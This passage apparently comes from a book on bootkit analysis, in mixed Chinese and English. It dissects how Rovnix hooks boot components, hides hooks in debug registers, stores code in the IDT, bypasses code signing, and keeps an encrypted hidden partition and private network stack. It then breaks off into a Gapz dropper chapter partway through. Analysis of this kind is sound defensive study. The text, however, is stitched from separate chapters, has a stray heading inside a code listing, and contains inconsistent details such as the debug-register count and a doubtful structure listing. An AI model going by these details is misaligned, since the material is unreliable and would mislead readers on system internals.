基本块 9 到 11 实现寄存器初始化并转移到已解密代码（Listing 11-4）。

```
; Basic Block #9  
MEMORY:D94B push    ds  
MEMORY:D94C pop     es  
MEMORY:D94D mov     cx, 4D4h  
MEMORY:D950 add     ax, cx  
MEMORY:D952 jmp     short loc_D997  
--snip--  
; Basic Block #10  
MEMORY:D997 mov     si, 4B2h  
➊ MEMORY:D99A push    ax  
    MEMORY:D99B push    cx  
    MEMORY:D99C add     si, bp  
    MEMORY:D99E jmp     short loc_D98D  
--snip--  
; Basic Block #11  
MEMORY:D98D pop     bp  
➋ MEMORY:D98E retf
```

*Listing 11-4: 基本块 9 到 11（多态解密器）*

在 ➊ 处存储解密后将在栈上执行的 IPL 代码地址，➋ 处的 `retf` 指令弹出该地址并转移控制到它。

要获得已解密的 IPL 代码，我们需要确定用于存放解密数据的缓冲区地址。为此，我们需要在 Listing 11-3 中指令 ➋ 之后的地址 `0000:D970h` 设置断点，然后释放控制，如 Figure 11-10 所示。



*Figure 11-10: 在 IDA Pro 中设置断点*

接下来，我们在 Listing 11-4 中标记的地址 `0000:D98Eh`（➋）设置断点，这是多态解密器的最后一条指令，然后让其余的解密代码运行。当调试器在此处中断后，执行最后的 `retf` 指令，即可直接跳转到已解密代码的地址 `9EC0:0732h`。

此时，恶意 IPL 代码已在内存中解密，可供进一步分析。需要注意的是，解密后，恶意 IPL 的第一个例程并非位于已解密缓冲区的起始地址 `9EC0:0000h`，而是在偏移 `732h` 处，这是因为恶意 IPL 的布局所致。如果要把内存中的缓冲区内容导出为文件以进行静态分析，应从缓冲区起始地址 `9EC0:0000h` 开始导出。

#### 通过修补 Windows 引导加载器获取控制

Rovnix 的 IPL 代码主要用于加载恶意的内核模式驱动。恶意引导代码与操作系统引导组件紧密协作，遵循从系统启动过程的最初阶段、通过处理器执行模式切换，直至操作系统内核加载的整个执行流程。引导加载器高度依赖平台调试设施以及操作系统引导组件的二进制表示。

一旦已解密的恶意 IPL 代码被执行，它会挂钩 INT 13h 处理程序，以便监控硬盘读取的所有数据，并在操作系统引导组件中设置进一步的钩子。恶意 IPL 然后解压并返回控制权给原始 IPL 代码，以继续正常的启动过程。

Figure 11-11 展示了 Rovnix 干扰启动过程并 compromise OS 内核的步骤。我们已经描述了到第四个框之前的步骤，接下来从“加载 `bootmgr`”步骤的 ➊ 开始继续描述引导根套件（bootkit）的功能。



*Figure 11-11: Rovnix IPL 代码的启动过程*

在挂钩 INT 13h 处理程序后，Rovnix 监控硬盘读取的所有数据，并寻找对应于操作系统 `bootmgr` 的特定字节模式。当找到匹配模式时，Rovnix 在 `bootmgr` ➋ 处修改其代码，使其能够检测处理器从实模式切换到受保护模式这一标准启动步骤。该模式切换会改变虚拟地址到物理地址的映射，从而改变虚拟内存布局，这会导致 Rovnix 失去控制。因此，为了在切换过程中保持控制并继续传播，Rovnix 在 `bootmgr` 上插入一个 `jmp` 指令，使其在处理器切换到受保护模式之前获得控制权。

在继续之前，我们将探讨 Rovnix 如何隐藏其钩子，然后看它是如何在模式切换时保持持久性的。

##### 利用调试接口隐藏钩子

使 Rovnix 比其他引导根套件更有趣的一点是其钩子的隐蔽性。它挂钩 INT 1h 处理程序 ➌，以便在操作系统内核初始化的特定时刻接收控制，并利用调试寄存器 `dr0` 到 `dr7` 设置硬件断点，从而不修改被挂钩的代码，避免被检测。

这八个调试寄存器（`dr0`~`dr7`）为 Intel x86 和 x64 平台提供硬件调试支持。前四个寄存器 `dr0`~`dr3` 用于指定断点的线性地址。`dr7` 寄存器用于选择性地指定并使能触发条件，例如在特定地址的代码执行或内存读写时触发断点。`dr6` 寄存器是状态寄存器，用于指示哪种调试条件已触发——即哪个断点被命中。`dr4` 和 `dr5` 保留且未使用。一旦硬件断点被触发，`INT 1h` 会执行以确定哪种调试条件发生，并据此分发处理。

正是这种机制使得 Rovnix 能够在不修改被挂钩代码的情况下设置隐蔽钩子。Rovnix 将 `dr0`~`dr4` 寄存器设置为目标挂钩地址，并在 `dr7` 寄存器中相应设置位掩码，从而为每个寄存器启用硬件断点。

##### 利用中断描述表持久化

除了利用平台调试设施，Rovnix 的早期迭代还使用了一种有趣的技术在从实模式切换到受保护模式时保持持久性。在切换到受保护模式之前，`bootmgr` 会初始化重要的系统结构，如全局描述表（GDT）和中断描述表（IDT）。后者包含中断处理程序的描述符。

#### 中断描述表

IDT 是 CPU 在受保护模式下用于指定 CPU 中断处理程序的特殊系统结构。在实模式下，IDT（也称为 `Interrupt Vector Table` 或 `IVT`）很简单——仅仅是从地址 `0000:0000h` 开始的处理程序 4 字节地址数组。换句话说，`INT 0h` 处理程序的地址是 `0000:0000h`，`INT 1h` 处理程序的地址是 `0000:0004h`，`INT 2h` 处理程序的地址是 `0000:0008h`，依此类推。在受保护模式下，IDT 具有更复杂的布局：8 字节中断处理程序描述符的数组。IDT 的基地址可以通过 `sidt` 处理器指令获得。有关 IDT 的更多信息，请参阅 Intel 的文档：[`www.intel.com/content/www/us/en/processors/architectures-software-developer-manuals.html`](http://www.intel.com/content/www/us/en/processors/architectures-software-developer-manuals.html)。

Rovnix 将恶意 IPL 代码复制到 IDT 的后半部分，该部分目前未被系统使用。鉴于每个描述符为 8 字节，表中有 256 个描述符，这为 Rovnix 提供了 1KB 的 IDT 内存，足以存储其恶意代码。IDT 处于受保护模式，因此将其代码存储在 IDT 中可确保 Rovnix 在模式切换时持久化，且 IDT 地址可通过 `sidt` 指令轻松获得。Rovnix 修改后的 IDT 总体布局如 Figure 11-12 所示。



*Figure 11-12: Rovnix 如何滥用 IDT 以在执行模式切换中传播*

#### 加载恶意内核模式驱动程序

挂钩 INT 1h 处理程序后，Rovnix 继续挂钩其他操作系统引导加载程序组件，如 `winload.exe` 和操作系统内核镜像（例如 `ntoskrnl.exe`）。Rovnix 等待 `bootmgr` 代码加载 `winload.exe`，然后挂钩 `BlImgAllocateImageBuffer` 例程（参见 Figure 11-11 中的 ➍），通过在其起始地址设置硬件断点来为可执行镜像分配缓冲区。此技术分配内存以保存恶意内核模式驱动程序。

恶意软件还挂钩 `winload.exe` 中的 `OslArchTransferToKernel` 例程。此例程将控制权从 `winload.exe` 转移到内核的入口点 `KiSystemStartup`，后者启动内核初始化。通过挂钩 `OslArchTransferToKernel`，Rovnix 在调用 `KiSystemStartup` 之前获得控制权，并利用此机会注入恶意内核模式驱动程序。

`KiSystemStartup` 例程接受单个参数 `KeLoaderBlock`，它是指向 `LOADER_PARAMETER_BLOCK` 的指针——一个由 `winload.exe` 初始化的未公开结构，包含重要的系统信息，如启动选项和已加载模块。该结构如 Listing 11-5 所示。

```c
typedef struct _LOADER_PARAMETER_BLOCK  
{  
    LIST_ENTRY LoadOrderListHead;  
    LIST_ENTRY MemoryDescriptorListHead;  
    ➊ LIST_ENTRY BootDriverListHead;  
    ULONG KernelStack;  
    ULONG Prcb;  
    ULONG Process;  
    ULONG Thread;  
    ULONG RegistryLength;  
    PVOID RegistryBase;  
    PCONFIGURATION_COMPONENT_DATA ConfigurationRoot;  
    CHAR * ArcBootDeviceName;  
    CHAR * ArcHalDeviceName;  
    CHAR * ArcLoadDeviceName;  
    CHAR * ArcSystemDeviceName;  
    CHAR * NtBootPath;  
    CHAR * NtHalPath;  
    CHAR * LoadOptions;  
    ULONG SystemDisk;  
    ULONG SystemPartition;  
    ULONG OsLoaderPath;  
    ULONG OsLoaderFile;  
    ULONG OsLoaderBase;  
    ULONG OsLoaderExports;  
    ULONG OsLoaderSize;  
    ULONG OsLoaderCheckSum;  
    ULONG OsLoaderTimeDateStamp;  
    ULONG OsLoaderFileAlignment;  
    ULONG OsLoaderSectionAlignment;  
    ULONG OsLoaderImageBase;  
    ULONG OsLoaderEntryPoint;  
    ULONG OsLoaderFlags;  
    ULONG OsLoaderReserved;  
} LOADER_PARAMETER_BLOCK, *PLOADER_PARAMETER_BLOCK;
```

*Listing 11-5: LOADER_PARAMETER_BLOCK 结构*

Rovnix 遍历 `BootDriverListHead` ➊ 链表以查找 `kdcom.dll` 条目。`kdcom.dll` 是内核调试器通信 DLL，它在内核初始化早期加载。Rovnix 将 `kdcom.dll` 的入口点替换为其恶意驱动程序的入口点，从而实现代码执行重定向。

#### 绕过内核模式代码签名策略

Rovnix 使用多种技术绕过内核模式代码签名策略（KMCS）。在 32 位系统上，它利用 `BootDriverListHead` 替换 `kdcom.dll`。在 64 位系统上，它修补 `ntoskrnl.exe` 的 `KiSystemStartup` 例程以禁用签名检查。此外，Rovnix 还挂钩 `CI!CiValidateImageHeader` 以绕过代码完整性验证。

### 隐藏文件系统

Rovnix 的另一显著特性是其隐藏文件系统分区（即操作系统不可见的分区），用于秘密存储配置数据和额外载荷模块。隐藏存储的实现并非新的引导根套件技术——它被 TDL4 和 Olmasco 等其他根套件所使用，但 Rovnix 的实现略有不同。

为物理存储隐藏分区，Rovnix 会在硬盘的开头或结尾占用空间，具体取决于哪里有足够的空闲空间；如果在第一个分区之前有 `0x7D0`（十进制 2,000，约 1 MB）或更多空闲扇区，Rovnix 将隐藏分区放在 MBR 扇区之后并占据全部这些空闲扇区。如果开头空间不足，则尝试在硬盘末尾放置隐藏分区。要访问隐藏分区中的数据，Rovnix 使用前文已说明的已挂钩的 `IRP_MJ_INTERNAL_CONTROL` 处理程序。

#### 将分区格式化为虚拟 FAT 系统

在为隐藏分区分配空间后，Rovnix 将其格式化为 *Virtual FAT* 文件系统——一种 FAT 的变体，能够存储长度最高 256 字节的 Unicode 文件名（长文件名）。传统的 FAT 文件系统对文件名长度有 8+3 的限制，即最多 8 个字符的文件名和 3 个字符的扩展名。

#### 加密隐藏文件系统

为保护隐藏文件系统中的数据，Rovnix 实现了基于 RC6 加密算法的分区透明加密，采用电子代码本（ECB）模式和 128 位密钥长度。在 ECB 模式下，待加密数据被划分为长度相等的块，每个块均独立使用相同的密钥进行加密。密钥存储在隐藏分区首 Sector（第一扇区）的最后 16 字节，如 Figure 11-15 所示，用于加密和解密整个分区。



*Figure 11-15: 隐藏分区首 Sector 中密钥的存储位置*

**RC6**

RC6（Rivest cipher 6）是由 Ron Rivest、Matt Robshaw、Ray Sidney 和 Yiqun Lisa Yin 设计的对称块加密算法，旨在满足 *Advanced Encryption Standard (AES)* 竞赛的要求。RC6 的块大小为 128 位，支持 128、192 和 256 位密钥长度。

#### 访问隐藏文件系统

为让载荷模块能够访问隐藏文件系统，Rovnix 创建一种特殊的*符号链接*（symbolic link）。简言之，符号链接是隐藏存储设备对象的别名，可供用户模式进程中的模块使用。Rovnix 生成形如 `\\DosDevices\\<XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX>` 的字符串，其中 X 为随机生成的十六进制数字（0‑F），该字符串作为隐藏存储的符号链接名称。

隐藏文件系统的一个优势是它可以通过操作系统提供的标准 Win32 API 函数（如 `CreateFile`、`CloseFile`、`ReadFile` 或 `WriteFile`）作为常规文件系统访问。例如，要在隐藏文件系统的根目录中创建名为 `file_to_create` 的文件，恶意载荷调用 `CreateFile`，并将符号链接字符串 `\\DosDevices\\<%XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX>\\file_to_create` 作为文件名参数传递。一旦载荷模块发出此调用，操作系统会将请求重定向到负责处理隐藏文件系统请求的恶意内核驱动程序。

Figure 11-16 显示恶意驱动程序如何实现文件系统驱动功能。一旦收到载荷的 I/O 请求，Rovnix 会通过挂钩硬盘句柄分发该请求，以在硬盘上执行隐藏文件系统的读取和写入操作。



*Figure 11-16: Rovnix 隐藏存储文件系统的架构*

在此场景下，操作系统与恶意隐藏文件系统共存于同一块硬盘上，但操作系统并不了解用于存储隐藏数据的硬盘区域。

恶意隐藏文件系统可能会篡改操作系统文件系统上存储的合法数据，但由于隐藏文件系统位于硬盘的开头或结尾，这种情况发生的可能性较低。

### 隐藏通信通道

Rovnix 还隐藏了更多技巧。Rovnix 内核驱动程序实现了 TCP/IP 协议栈，用于秘密与远程 C&C 服务器通信。操作系统提供的网络接口经常被安全软件挂钩，以监控和控制通过网络的流量。Rovnix 并不依赖这些网络接口，而是使用自己独立于操作系统的自定义网络协议实现，以从 C&C 服务器下载载荷模块。

为了能够通过此网络发送和接收数据，Rovnix 内核驱动程序实现了完整的网络栈，包括以下接口：

- Microsoft `Network Driver Interface Specification (NDIS)` miniport 接口，用于通过物理网络以太网接口发送数据包
- TCP/IP 网络协议的 Transport Driver Interface
- Socket 接口
- HTTP 协议，用于与远程 C&C 服务器通信

如 Figure 11-17 所示，NDIS miniport 层负责与网络接口卡通信，发送和接收网络数据包。Transport Driver Interface 提供 TCP/IP 接口给上层 Socket 接口，Socket 接口又被 Rovnix 的 HTTP 协议用于传输数据。


*Figure 11-17: Rovnix 自定义网络栈实现的架构*

Rovnix 的创建者并未从零开始开发此隐藏网络通信系统——这种实现需要数千行代码，容易出错。相反，他们基于开源的轻量级 TCP/IP 网络库 `lwIP` 进行实现。`lwIP` 库是一个小型、独立的 TCP/IP 协议栈实现，重点在于降低资源消耗，同时提供完整的 TCP/IP 协议栈。根据其网站，`lwIP` 的内存占用仅几十千字节，代码量约 40KB，非常适合作为引导程序根套件。

诸如隐藏通信通道等特性使 Rovnix 能够绕过本地网络监控安全软件。由于 Rovnix 自带网络协议栈，网络安全软件无法感知且无法监控其网络通信。从协议栈的最上层到 NDIS miniport 驱动的最底层，Rovnix 仅使用其自身的网络组件，使其成为一种极具隐蔽性的引导程序根套件。

### 案例历史：Carberp 关联

Rovnix 在野外使用的一个真实案例是俄罗斯最著名的网络犯罪团体开发的 Carberp 恶意软件。Carberp 用于让银行木马在受害者系统上持久化。^(2) 我们将探讨 Carberp 的一些方面以及它是如何基于 Rovnix 引导程序根套件开发的。

#### 与 Carberp 相关的恶意软件

据估计，开发 Carberp 的团体平均每周获得数百万美元的收入，并大量投资于其他恶意软件技术，例如 Hodprot 投递器，^(1) 该投递器已被用于安装 Carberp、RDPdoor 和 Sheldor。^(2) RDPdoor 特别恶意：它在感染系统上安装 Carberp 以开辟后门，并手动执行欺诈性银行交易。

1. [`www.welivesecurity.com/media_files/white-papers/Hodprot-Report.pdf`](https://www.welivesecurity.com/media_files/white-papers/Hodprot-Report.pdf)
2. [`www.welivesecurity.com/2011/01/14/sheldor-shocked/`](https://www.welivesecurity.com/2011/01/14/sheldor-shocked/)

#### Carberp 的开发

2011 年 11 月，我们注意到 Carberp 背后的网络犯罪团伙在其 C&C 服务器上分发基于 Rovnix 框架的引导程序根套件的加载器。我们开始追踪 Carberp 恶意软件，发现在此期间其分发非常有限。

两点在我们的分析中表明该 bot 处于测试模式并正在被积极开发。第一个线索是关于 bot 安装和二进制行为的大量调试和跟踪信息。第二个线索是我们通过访问 bot C&C 服务器的日志发现，大量的安装失败信息被回传到 C&C。Figure 11-18 展示了 Carberp 所报告的信息示例。


*Figure 11-18: Rovnix 加载器日志示例*

ID 列指定 Rovnix 实例的唯一标识；status 列包含受害者系统是否被成功入侵的信息。感染算法被分为多个步骤，每个步骤完成后信息会直接发送到 C&C 服务器。step 列提供正在执行的步骤信息，info 列描述安装过程中遇到的任何错误。通过查看 step 和 info 列，botnet 运营者可以判断感染在哪个步骤失败以及失败原因。

Carberp 使用的 Rovnix 版本包含大量调试字符串，并向 C&C 发送大量详细信息。Figure 11-19 展示了其可能发送的字符串示例。这些信息对我们分析威胁并理解其功能极为有用。二进制中留下的调试信息揭示了二进制中实现的函数名称及其用途，记录了代码逻辑，使我们能够更轻松地重建恶意代码的上下文。


*Figure 11-19: 开发者在 Rovnix 加载器中留下的调试字符串示例*

#### 加载器增强

Carberp 中使用的 Rovnix 框架与本章开头描述的引导程序几乎相同，唯一显著的变化出现在加载器中。在“Infecting the System”（第 150 页）中，我们提到 Rovnix 尝试通过使用 `ShellExecuteEx` Win32 API 来提升权限，以在受害者机器上获得管理员权限。在 Carberp 版本的 Rovnix 中，加载器利用系统中的以下漏洞来提升权限：

- `MS10-073` 在 `win32k.sys` 模块中：此漏洞最初被 Stuxnet 蠕虫利用，利用特制键盘布局文件的错误处理。
- `MS10-092` 在 Windows Task Scheduler 中：此漏洞也首次在 Stuxnet 中发现，利用 Windows Scheduler 中的完整性验证机制。
- `MS11-011` 在 `win32k.sys` 模块中：此漏洞导致 `win32k.sys!RtlQueryRegistryValues` 例程中基于栈的缓冲区溢出。
- `.NET Runtime Optimization` 漏洞：这是 Microsoft .NET Runtime Optimization Service 中的漏洞，导致以 SYSTEM 权限执行恶意代码。

Carberp 安装程序的另一个有趣特性是，它在将木马或引导程序安装到系统之前，会从系统例程列表中移除各种钩子，如 Listing 11-8 所示。这些例程是安全软件（如沙箱和主机入侵防御及保护系统）的常见挂钩目标。通过取消挂钩这些函数，恶意软件增加了逃避检测的能力。

```


## 常见恶意软件利用的 Windows API 函数

### NTDLL.dll 导出函数

*   `ntdll!ZwSetContextThread`
*   `ntdll!ZwGetContextThread`
*   `ntdll!ZwUnmapViewOfSection`
*   `ntdll!ZwMapViewOfSection`
*   `ntdll!ZwAllocateVirtualMemory`
*   `ntdll!ZwWriteVirtualMemory`
*   `ntdll!ZwProtectVirtualMemory`
*   `ntdll!ZwCreateThread`
*   `ntdll!ZwOpenProcess`
*   `ntdll!ZwQueueApcThread`
*   `ntdll!ZwTerminateProcess`
*   `ntdll!ZwTerminateThread`
*   `ntdll!ZwResumeThread`
*   `ntdll!ZwQueryDirectoryFile`
*   `ntdll!ZwCreateProcess`
*   `ntdll!ZwCreateProcessEx`
*   `ntdll!ZwCreateFile`
*   `ntdll!ZwDeviceIoControlFile`
*   `ntdll!ZwClose`
*   `ntdll!ZwSetInformationProcess`

### Kernel32.dll 导出函数

*   `kernel32!CreateRemoteThread`
*   `kernel32!WriteProcessMemory`
*   `kernel32!VirtualProtectEx`
*   `kernel32!VirtualAllocEx`
*   `kernel32!SetThreadContext`
*   `kernel32!CreateProcessInternalA`
*   `kernel32!CreateProcessInternalW`
*   `kernel32!CreateFileA`
*   `kernel32!CreateFileW`
*   `kernel32!CopyFileA`
*   `kernel32!CopyFileW`
*   `kernel32!CopyFileExW`

### Ws2_32.dll 导出函数

*   `ws2_32!connect`
*   `ws2_32!send`
*   `ws2_32!recv`
*   `ws2_32!gethostbyname`


*Listing 11-8: List of routines unhooked by the Rovnix dropper*

The bootkit and kernel-mode driver sections of the Carberp’s Rovnix modification remain the same as in the original version of the bootkit. After successful installation onto the system, the malicious IPL code loaded the kernel-mode driver, and the driver injected its Carberp trojan payload into the system processes.

### Leaked Source Code

In June 2013, the source code for Carberp and Rovnix was leaked to the public. The complete archive was made available for download and contained all the necessary source code for attackers to build their own Rovnix bootkit. Despite this, we haven’t seen as many custom modifications of Rovnix and Carberp in the wild as we might expect, which we assume is due to the complexity of this bootkit technology.

## Conclusion

This chapter provided a detailed technical analysis of Rovnix in the continuous bootkit arms race facing the security industry. Once security software caught up with contemporary bootkits infecting the MBR, Rovnix presented another infection vector, the IPL, triggering another round of evolution in antivirus technology. Due to its IPL infection approach, and its implementation of hidden storage and hidden network communication channels, Rovnix is one of the most complex bootkits seen in the wild. These features make it a dangerous weapon in the hands of cybercriminals, as confirmed by the Carberp case.

In this chapter we devoted special attention to dissecting Rovnix’s IPL code using `VMware` and `IDA Pro`, demonstrating the practical usage of these tools in the context of bootkit analysis. You can download all the necessary data to repeat the steps, or to conduct your own in-depth investigation into Rovnix’s IPL code, from [`nostarch.com/rootkits/`](https://nostarch.com/rootkits/).

The second variation, `Win32/Gapz.B`, didn’t install a bootkit on the targeted system at all. To persist on the victim’s system, Gapz simply installed a malicious kernel-mode driver. However, this approach wouldn’t work on Microsoft Windows 64-bit platforms due to the lack of a valid digital signature for the kernel-mode driver, limiting this modification to Microsoft Windows 32-bit operating systems only.

The last known and the most interesting iteration of the dropper, `Win32/Gapz.A`, is the version we’ll focus on in this chapter. This version came with a VBR bootkit. In the rest of the chapter, we will simply use “Gapz” to refer to `Win32/Gapz.A`.

Table 12-1 summarizes the different versions of the dropper.

**Table 12-1:** Versions of the Win32/Gapz Dropper

| **Detection name** | **Compilation date** | **LPE exploits** | **Bootkit technique** |
| --- | --- | --- | --- |
| `Win32/Gapz.A` | 09/11/2012, 10/30/2012 | `CVE-2011-3402`, `CVE-2010-4398`, COM Elevation | VBR |
| `Win32/Gapz.B` | 11/06/2012 | `CVE-2011-3402`, COM Elevation | No bootkit |
| `Win32/Gapz.C` | 04/19/2012 | `CVE-2010-4398`, `CVE-2011-2005`, COM Elevation | MBR |

The detection name column lists the Gapz variation adopted by the antivirus industry. The entries in the compilation date column are taken from the Gapz droppers’ PE header, which is believed to be an accurate timestamp. The Bootkit technique column shows what kind of bootkit the dropper employs.

All of the variations of the Gapz dropper listed in Table 12-1 contain the same payload.

### Dropper Algorithm

Before examining the Gapz dropper more closely, let’s recap what it needs in order to silently and successfully install Gapz onto the system.

First, the dropper requires administrative privileges to access the hard drive and modify MBR/VBR/IPL data. If the dropper’s user account lacks administrator privileges, it must raise its privileges by exploiting LPE vulnerabilities in the system.

Second, it needs to bypass security software, such as antivirus programs, personal firewalls, and Host Intrusion Prevention Systems. To stay under the radar, Gapz uses advanced tools and methods, including obfuscation, antidebugging, and antiemulation techniques. In addition to these methods, the Gapz dropper employs a unique and rather interesting technique to bypass HIPS, as discussed later in the chapter.

#### HOST INTRUSION PREVENTION SYSTEMS

As its name suggests, a Host Intrusion Prevention System, or HIPS, is a computer security software package that is intended to prevent an attacker from accessing the target system. It employs a combination of methods, including but not limited to using signatures and heuristics and monitoring a single host for suspicious activity (for example, the creation of new processes in the system, allocation of a memory buffer with executable pages in another process, and new network connections). Unlike computer antivirus software, which analyzes only executable files, HIPS analyzes events to spot deviations from the system’s normal state. If malware manages to bypass the computer antivirus software and executes on the computer, HIPS may still be able to spot and block the intruder by detecting changes in the interactions of different events.

Taking these obstacles into account, these are the steps the Gapz dropper performs to successfully infect a system:

1.  Inject itself into `explorer.exe` to bypass HIPS (as discussed in “Bypassing HIPS” on page 181).
2.  Exploit an LPE vulnerability in the targeted system to elevate its user privileges.
3.  Install the bootkit onto the system.

### Dropper Analysis

When the unpacked dropper is loaded into the `IDA Pro` disassembler, its export address table will look something like Figure 12-1. The export address table shows all the symbols exported from the binary and nicely sums up the steps in the dropper execution algorithm.


*Figure 12-1: Export address table of the Gapz dropper*

There are three routines exported by the binary: one main entry point and two routines with randomly generated names. Each routine has its own purpose:

- `start`: Injects the dropper into the `explorer.exe` address space
- `icmnf`: Exploits LPE vulnerabilities in the system to elevate privileges
- `isyspf`: Infects the victim’s machine

Figure 12-1 also shows the exported symbol `gpi`. This symbol points to a shared memory in the dropper image, used by the preceding routines to inject the dropper into the `explorer.exe` process.

Figure 12-2 depicts these stages. The main entry point doesn’t infect the system with the Gapz bootkit. Instead it executes the `start` routine to inject the dropper into `explorer.exe` in order to bypass detection by security software. Once the dropper is injected, it attempts to acquire administrator privileges by exploiting LPE vulnerabilities in the system with the `icmnf` routine. Once the dropper gains the required privileges, it executes the `isyspf` routine to infect the hard drive with the bootkit.


*Figure 12-2: Gapz dropper workflow*

Let’s take a closer look at the process of injecting the dropper and bypassing HIPS.

### Bypassing HIPS

Computer viruses have many methods of camouflaging themselves as benign software to avoid attracting the attention of security software. The TDL3 rootkit we discussed in Chapter 1 employs another interesting technique for bypassing HIPS, which abused `AddPrintProvidor`/`AddPrintProvider` system APIs to stay under the radar. These API functions are used to load custom modules into a trusted system process, `spoolsvc.exe`, that is responsible for printing support on Windows systems. The `AddPrintProvidor` routine, an executable module used to install a local print provider onto the system, is frequently excluded from the list of items monitored by security software. TDL3 simply creates an executable file with malicious code and loads it into `spoolsvc.exe` by running `AddPrintProvidor`. Once the routine is executed, the malicious code runs within the trusted system process, allowing TDL3 to attack without worrying about being detected.

Gapz also injects its code into a trusted system process in order to bypass HIPS, but it uses an elaborate nonstandard method, the core aim of which is to inject shellcode that loads and executes the malicious image into the explorer process. These are the steps the dropper takes:

1.  Open one of the shared sections from `\\BaseNamedObjects` mapped into the `explorer.exe` address space (see Listing 12-1) and write shellcode into this section. The `\\BaseNamedObjects` directory in the Windows Object Manager namespace contains names of mutex, event, semaphore, and section objects.
